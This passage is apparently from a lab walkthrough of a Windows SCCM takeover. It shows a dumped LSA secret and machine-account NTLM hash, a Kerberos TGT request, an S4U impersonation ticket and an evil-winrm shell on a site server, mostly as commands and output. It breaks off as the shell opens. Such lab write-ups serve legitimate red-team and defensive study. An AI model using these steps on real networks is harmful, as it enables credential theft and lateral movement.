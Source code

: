     0030   CE 6E F9 90 1F 04 2A 2A  DC 8F 73 E4 1D 30 97 72   .n....**..s..0.r
    NL$KM:9ddd9e8dbc07088500b7a8eb0ea05ce2767318c474ecbb5937b195562e1b33851326528bd9284847782ac397712be5a6ce6ef9901f042a2adc8f73e41d309772
    [*] Cleaning up...
    ```

 5. Get TGT for recovered site server machine account:
    ```
    └─# getTGT.py internal.lab/SCCM2$ -hashes aad3b435b51404eeaad3b435b51404ee:2e510487c6db715d8f0c5bea67d9e27d
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Saving ticket in SCCM2$.ccache
    ```

6. S4U:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PKINITtools]
    └─# python3 gets4uticket.py kerberos+ccache://internal.lab\\sccm\$:SCCM2\$.ccache@dc01.internal.lab http/sccm2.internal.lab@internal.lab cas\$@internal.lab cas_s4u.ccache -v
    2024-03-06 21:59:36,769 minikerberos INFO     Trying to get SPN with cas$@internal.lab for http/sccm2.internal.lab@internal.lab
    INFO:minikerberos:Trying to get SPN with cas$@internal.lab for http/sccm2.internal.lab@internal.lab
    2024-03-06 21:59:36,774 minikerberos INFO     Success!
    INFO:minikerberos:Success!
    2024-03-06 21:59:36,774 minikerberos INFO     Done!
    INFO:minikerberos:Done!
    ```

7. Set the Kerberos credentials cache file environment variable:
    ```
    export cas_s4u.ccache


    └─# klist
    Ticket cache: FILE:cas_s4u.ccache
    Default principal: SCCM2$@INTERNAL.LAB

    Valid starting       Expires              Service principal
    03/06/2024 18:02:50  03/07/2024 04:02:50  krbtgt/INTERNAL.LAB@INTERNAL.LAB
        renew until 03/07/2024 18:02:50
    03/06/2024 21:59:36  03/07/2024 04:02:50  http/sccm2.internal.lab@INTERNAL.LAB
        for client cas$@internal.lab
    03/06/2024 21:59:36  03/07/2024 04:02:50  http/sccm2.internal.lab@INTERNAL.LAB
        for client cas$@internal.lab
    ```

8. Establish a PowerShell remoting session on the target site server to interact with the SMS Provider:
    ```
    └─# evil-winrm -r internal.lab -i sccm2.internal.lab

    Evil-WinRM shell v3.5

    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

